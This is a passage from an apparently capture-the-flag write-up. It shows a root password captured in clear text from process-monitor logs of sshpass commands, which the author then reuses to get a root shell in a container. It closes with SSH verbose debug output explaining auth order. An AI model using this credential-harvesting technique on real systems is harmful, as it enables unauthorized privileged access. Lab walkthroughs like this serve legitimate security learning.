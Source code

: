 

    2020/09/13 11:27:01 CMD: UID=0    PID=54532  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz scp /root/clear.sh root@172.18.0.2:/tmp/clear.sh
    2020/09/13 11:27:01 CMD: UID=0    PID=54552  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 /tmp/clear.sh                                                                                 
    2020/09/13 11:27:01 CMD: UID=0    PID=54571  | sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@172.18.0.2 rm /tmp/clear.sh



For some reason, the password is masked most of the time and replaced
with all `z`. But if I let it run for a while, once in a while it isn't
masked:



    2020/09/13 11:24:45 CMD: UID=0    PID=52688  | sshpass -p c413d115b3d87664499624e7826d8c5a scp /opt/updates/files/apiv2-feed root@172.18.0.2:/root/feeds/



I can verify that this password does work to get a root shell in the
container:



    solr@laser:~$ sshpass -p c413d115b3d87664499624e7826d8c5a ssh root@172.18.0.2
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage


    This system has been minimized by removing packages and content that are
    not required on a system that users do not log into.

    To restore this content, you can run the 'unminimize' command.
    Last login: Sun Sep 13 16:09:52 2020 from 172.18.0.1
    root@20e3289bc183:~# id && hostname
    uid=0(root) gid=0(root) groups=0(root)
    20e3289bc183



But there's nothing interesting in there.

### SSH Auth Background

On important thing to know about SSH is how it tries to connect. When
you connect, it asks the server for the kinds of auth accepted, and then
tried those in order. Typically that is keys, then password. When I run
SSH within `sshpass`, it still checks this order. For example, I'll try
to connect to root@laser with a password that I know won't work:



    root@kali# sshpass -p 0xdf ssh -v root@10.10.10.201
    OpenSSH_8.3p1 Debian-1, OpenSSL 1.1.1g  21 Apr 2020
    debug1: Reading configuration data /root/.ssh/config
    debug1: Reading configuration data /etc/ssh/ssh_config
    debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
    debug1: /etc/ssh/ssh_config line 21: Applying options for *
    debug1: Connecting to 10.10.10.201 [10.10.10.201] port 22.
    ...[snip]...
    debug1: rekey in after 134217728 blocks
    debug1: Will attempt key: /root/.ssh/id_rsa 
    debug1: Will attempt key: /root/.ssh/id_dsa 
    debug1: Will attempt key: /root/.ssh/id_ecdsa 
    debug1: Will attempt key: /root/.ssh/id_ecdsa_sk 
    debug1: Will attempt key: /root/.ssh/id_ed25519 ED25519 SHA256:5v6bCtr80KzBSQxpvM12qHOepUaHAmASha2HaGZUeXk
    debug1: Will attempt key: /root/.ssh/id_ed25519_sk 
    debug1: Will attempt key: /root/.ssh/id_xmss 